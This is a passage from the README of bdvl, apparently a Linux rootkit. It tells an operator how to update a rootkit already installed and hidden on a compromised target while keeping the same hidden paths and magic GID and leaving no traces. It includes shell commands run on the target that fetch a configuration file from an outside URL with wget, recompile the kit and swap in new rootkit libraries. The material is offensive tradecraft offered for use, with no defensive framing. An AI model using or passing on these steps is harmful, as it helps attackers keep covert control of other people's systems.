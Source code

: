 #### 3.1.2. Notes
 * As stated `./bdv update` is only an option in new versions of bdvl.
 * But that doesn't mean you can't update old versions...
   * It's possible, however it will take a little more effort...
   * Not a great deal though. Think of it like a cross referencing game...
 * The below sections, ([Updates to code-base only](#32-updates-to-code-base-only) & [Updates to bedevil.h](#33-updates-to-bedevilh)) aptly detail this process.

### 3.2. Updates to code-base only
 * In most cases, there will only be changes to the code-base & not the contents of `bedevil.h` itself.
   * In this case, all you need to do is replace `newinc/bedevil.h` with **your** `<PAM_UNAME>.h`.
   * Then `make` & replace the existing rootkit.so's with the newly compiled ones.
 * **Example** (*logged in & hidden on target machine inside cloned/updated bdvl*):
```
wget https://url.to/mybedevil.h -O newinc/bedevil.h &&
make && 
mv build/*.x86_64 ~/install_dir/`./bdv soname`.x86_64 && 
mv build/*.i686 ~/install_dir/`./bdv soname`.i686 2>/dev/null
```
 * Of course your target might be on a different platform or you may have access to `mybedevil.h` somehow else but the idea is fundamentally the same.
 * Before going full steam ahead with installing a new version of bdvl, you **very much should triple-check** you won't wreck anything or accidentally leave some unhidden & pretty odd looking directory behind from the **first installation**.
 * Do this by checking bedevil.h. More on that below.

### 3.3. Updates to bedevil.h
 * It could be that there have been new additions to `bedevil.h`, or maybe some things have been removed.
 * If this is the case, have a look. See what has changed.
   * The header is aptly commented & spaced out by `setup.py` so that you know what exactly everything is.
   * The comments in the header are intended to be markers, making cross-referencing settings & values much easier.
 * Really it is just a case of adding or removing stuff in the new header.
   * Adding stuff should there be new settings or arrays to take care of.
   * Or removing stuff... If particular settings or arrays have been removed from the kit for whatever reason.
 * By cross-referencing the new `bedevil.h` with your `<PAM_UNAME>.h` you can determine what needs changed.
   * Don't rush.
   * When you see something that needs changed, **replace all** (Ctrl+H or equivalent), if it is a string, in the new header with what **you** already have for that certain setting/value.
   * **Replacing all** is important as there may be parts of a target string within another. (for example your string could a substring in an array)
 * If you are replacing a constant, it is accompanied by `LEN_{NAME}`.
   * **Make sure this value & actual character length match!!**
 * Once you're 100% definite that the new updated header matches **your own** configuration & settings close enough to the point that you will be using the same paths, magic GID etc. you are good to update your installation.
   * It could be worth your time installing in a test environment beforehand, just to verify everything is a-ok.
 * **Example** (*logged in & hidden on target machine inside cloned/updated bdvl*):
```
make &&
mv build/*.x86_64 ~/install_dir/`./bdv soname`.x86_64 &&
mv build/*.i686 ~/install_dir/`./bdv soname`.i686 2>/dev/null
```
 * Of course you might be on a different platform but the idea remains the same.
